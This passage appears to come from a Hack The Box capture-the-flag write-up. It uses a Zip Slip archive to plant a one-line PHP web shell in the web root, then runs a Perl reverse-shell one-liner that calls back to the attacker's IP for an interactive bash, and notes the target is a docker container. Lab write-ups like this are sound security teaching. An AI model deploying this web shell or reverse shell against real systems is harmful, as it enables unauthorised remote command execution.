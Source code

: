 To create the malicious Zip file, we can use [`evilarc`](https://github.com/ptoomey3/evilarc). What kind of file do we put inside the Zip file? PHP of course. Remember that Apache/PHP runs behind `80/tcp`?

Let's zip this little bad boy.

<div class="filename"><span>cmd.php</span></div>

```php
<pre>
<?php echo shell_exec($_GET[0]); ?>
</pre>
```


{% include image.html image_alt="d970e545.png" image_src="/f8dd83a8-2193-4ced-a27e-b9c1cb3564d3/d970e545.png" %}


We want to put `cmd.php` at the document root (likely to be `/var/www/html`) of `80/tcp`.


{% include image.html image_alt="4c56b9f9.png" image_src="/f8dd83a8-2193-4ced-a27e-b9c1cb3564d3/4c56b9f9.png" %}


Bam. We have remote command execution alright.

## Low-Privilege Shell

From here on, it's easy to get a shell. I'm using the following Perl one-liner.

```
perl -e 'use Socket;$i="10.10.14.11";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'
```

It's best to `urlencode` the one-liner to prevent any complications when passing it as an URL. On my `nc` listener, a shell appears...


{% include image.html image_alt="5e81818d.png" image_src="/f8dd83a8-2193-4ced-a27e-b9c1cb3564d3/5e81818d.png" %}


It's equally easy to [upgrade](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) the shell to a full TTY.

During enumeration of the `www-data` account, you'll realize that `8080/tcp` is running as `root`. As such, we can use Zip Slip to write to anywhere, e.g. `/etc/sudoers.d`. Wait a tick, it can't be that easy right? Well, that's because we are inside a docker container.

Here's a snippet of the output of `mount`. It has all the hallmarks of a docker container.


{% include image.html image_alt="c3b6c4ed.png" image_src="/f8dd83a8-2193-4ced-a27e-b9c1cb3564d3/c3b6c4ed.png" %}


Lucky for us, `user.txt` is in this container (`aogiri`).


[1]: https://www.hackthebox.eu/home/machines/profile/187
[2]: https://www.hackthebox.eu/home/users/profile/1190
[3]: https://www.hackthebox.eu/home/users/profile/8308
[4]: https://www.hackthebox.eu/